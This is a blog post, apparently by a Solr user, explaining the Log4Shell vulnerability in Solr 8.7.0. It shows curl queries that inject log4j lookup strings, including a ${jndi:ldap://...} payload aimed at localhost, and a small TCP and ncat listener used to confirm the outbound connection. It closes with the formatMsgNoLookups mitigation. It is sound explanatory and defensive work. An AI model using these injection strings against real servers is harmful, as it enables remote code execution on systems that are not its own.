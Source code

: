 # Log4Shell and Solr
Last week the disclosure of the [Log4Shell vulnerability](https://www.lunasec.io/docs/blog/log4j-zero-day/) took many of us Solr users by surprise. When I first heard about it I didn't pay much attention to it since I figured that the problem was that somebody had found how to leak information *into the Solr log files*, something that is bad but that has limited exposure. However, one of my colleagues pointed out that the vulnerability allowed for *remote code execution (RCE)* and that is indeed scary.

As it turns out `log4j`, the library that Solr uses to log information, can be configured to insert certain dynamic tokens of information and one of these tokens allows it to connect to a remote server to download code and execute it. I am not a Java developer so this was news to me and I got curious to see how this works in practice. 

In a Solr installation the problem can be triggered by a user submitting a search via our application. If the user submits a query that is logged and that query has the correct syntax to trigger the expansion then they can trigger the vulnerability. And this is surprisingly easy to do. 

To demonstrate this in this blog post I am using Solr `8.7.0` with the default logging settings, but there are [many versions of Solr affected](https://solr.apache.org/security.html#apache-solr-affected-by-apache-log4j-cve-2021-44228) by this vulnerability. 


## Leaking information into the logs
One simple way of triggering this behavior in your local Solr is by issuing a simple command like this:

```
curl 'http://localhost:8983/solr/demo1/select?q=$\{sys:user.home\}'
```

The `${sys:user.home}` parameter in the URL is what causes `log4j` to execute the dynamic expansion as it logs the information. In this case it will log the name of the user name that Solr is running under.

You can validate this by looking at the Solr log file with a command like this  `cat ./solr-8.7.0/server/logs/solr.log`, the log will include a line with the following information:

```
2021-12-13 20:53:12.984 INFO  (qtp1845623216-26) [   x:demo1] o.a.s.c.S.Request [demo1]  webapp=/solr path=/select params={q=/Users/correah=} hits=0 status=0 QTime=0
``` 

Notice how the `q=${sys:user.home}` got expanded into `q=/Users/correah` when the line was logged by Solr. There are [many values that are supported](https://logging.apache.org/log4j/2.x/manual/configuration.html#PropertySubstitution) and that `log4j` knows how to process, I believe this expansion is known as Property Substitution in the Java world. 

Notice that the special token was passed on the `q` parameter to Solr, this is what I mean when I say that it is very easy for a user of our application to trigger the vulnerability. 

## Remote Code Execution

Leaking information into the logs like this is pretty bad, but the reason the vulnerability is scary is because one of the property substitutions that `log4j` supports allows it to connect to a remote host, download a piece of information, and execute it. This means that if a user submits a query through our application with the proper syntax, `log4j` will connect to a website controlled by this user and could force it to download and execute code on our servers.

This is possible is because one of the property substitutions that `log4j` recognizes allows to indicate a remote server. This is done via the `jndi` prefix. So if instead of passing a query like `${sys:user.home}` as we did before, we pass one that invokes `jndi` we can have our Solr connect to a remote host. 

For example let's say that we pass a query with `${jndi:ldap://127.0.0.1:9000/hello-world}` as shown below:

```
curl 'http://localhost:8983/solr/demo1/select?q=$\{jndi:ldap://127.0.0.1:9000/hello-world\}'
```

As `log4j` logs this query it will connect to a remote host, in this case it will connect to our local host on port `9000` via LDAP, but it could connect to any machine that the user indicates in the query string! The folks at Fastly have a [great explanation on how the remote code execution works in practice](https://www.fastly.com/blog/digging-deeper-into-log4shell-0day-rce-exploit-found-in-log4j) for this vulnerability. 


## Reaching to a remote host
Since I am not a Java developer I found it pretty hard to validate that Solr is indeed connecting to a remote host when I issue a command with `${jndi:ldap://127.0.0.1:9000/hello-world}` in the query string. The Solr log looks pretty innocent since it logs the string as-is (i.e. it does not look like it expanded it into anything):

```
2021-12-13 21:17:49.801 INFO  (qtp1845623216-22) [   x:demo1] o.a.s.c.S.Request [demo1]  webapp=/solr path=/select params={q=${jndi:ldap://127.0.0.1:9000/hello-world}} status=400 QTime=0
```

However, I was able to write a little tiny TCP server in Node.js that allowed me to see that Solr was indeed reaching out to `127.0.0.1:9000`. The code that I wrote is listed below:

```
// tcpserver.js
// An simple server over TCP. Always returns "hello" and disconnects.
// Test with: "telnet localhost 9000" or "nc localhost 9000"
var net = require("net");
var port = 9000;
var server = net.createServer();

server.on('connection', function(socket) {
    // Show that somebody connected.
    var now = new Date();
    console.log("%s => connection from: %s", now.toISOString(), socket.remoteAddress + ":" + socket.remotePort);

    // Send back "hello" and disconnect.
    socket.write("hello\r\n");
    socket.destroy()
});

console.log("Started TCP listener on port:" + port);
server.listen(port);
```

With this code I was able to run `node tcpserver.js` and then issue `curl 'http://localhost:8983/solr/demo1/select?q=$\{jndi:ldap://127.0.0.1:9000/hello-world\}'` again and see the following in my terminal:

```
$ node tcpserver.js 
Started TCP listener on port:9000
2021-12-13T21:34:53.338Z => connection from: ::ffff:127.0.0.1:55748
```

Notice how it detected a `connection from ::ffff:127.0.0.1:55748`. This line is the result of `log4j` attempting to make the `ldap://127.0.0.1:9000/hello-world` connection. My little TCP server is not an LDAP server so it does not return the proper information for Solr to download code and execute it, but it does show that Solr is reaching out to a remote host just by crafting the proper search terms.

From what I understand the `jndi` prefix supports many kind of [communications protocols](https://stackoverflow.com/questions/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used) and it can connect via LDAP and DNS but not via HTTP. 

My tiny TCP server always return "hello" back to the client and disconnects, but a real LDAP server could return information that will fully exploit the server as indicated in the Fastly blog post.

If you are on Linux you can use [ncat](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/) to validate that the remote connections are taking place instead of using the little TCP server that I showed here. Just run a command like this instead:

```
ncat -k -vv -c "echo ---CONNECTION [%NCAT_REMOTE_PORT%]--- 1>&2" -l 9000
```

## The fix
Apache Solr has [released a fix for this vulnerability](https://solr.apache.org/security.html#apache-solr-affected-by-apache-log4j-cve-2021-44228). I was able to validate that if we start our Solr installation with the `Dlog4j2.formatMsgNoLookups=true` setting then Solr will not reach out to a remote host when it receives the `${jndi:ldap://127.0.0.1:9000/hello-world}` string. 

Below is an example of how to start Solr with this parameter:

```
SOLR_OPTS="-Dlog4j2.formatMsgNoLookups=true" ./solr start
```

The following screenshots shows how to confirm Solr is running with the `log4j2.formatMsgNoLookups=true` setting

![Log4j setting](https://hectorcorrea.com/images/solr_formatmsgnolookups.jpg)

Keep in mind that with this setting the dynamic expansion of tokens like `${sys:user.home}` still takes place, but Solr does not reach out to remote hosts. 